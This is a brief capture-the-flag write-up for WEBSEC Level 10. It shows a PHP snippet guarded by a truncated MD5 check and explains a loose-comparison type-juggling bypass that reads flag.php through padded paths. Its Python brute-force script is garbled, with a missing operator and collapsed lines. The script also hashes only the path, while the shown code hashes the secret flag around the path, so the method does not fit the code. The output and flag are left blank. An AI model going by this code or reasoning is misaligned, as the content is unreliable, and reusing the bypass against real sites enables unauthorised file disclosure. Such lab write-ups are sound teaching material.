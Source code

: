 # WEBSEC Level 10


### Challenge description
Integrity without knowledge is weak and useless, and knowledge without integrity is dangerous and dreadful.

### Initial analysis
``` <?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
        ?>
        ```


### tl;dr
STEP 1: Find a value $file so that the MD5($file) == $request.[PHP Type juggling, connected by loose comparison (==)]

STEP 2: `import sys import hashlib for i in range(10000000): val='.'+('/'i1000)+'/flag.php' mdhas=hashlib.md5(val).hexdigest() if mdhas[0:2]=='0e': print val sys.exit()` [ "./" , ".//" , ".////" all function in the same manner ]

STEP 3: Input File -> val, Hash-> 0 

OUTPUT: 

### Flag
**FLAG**: ``

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.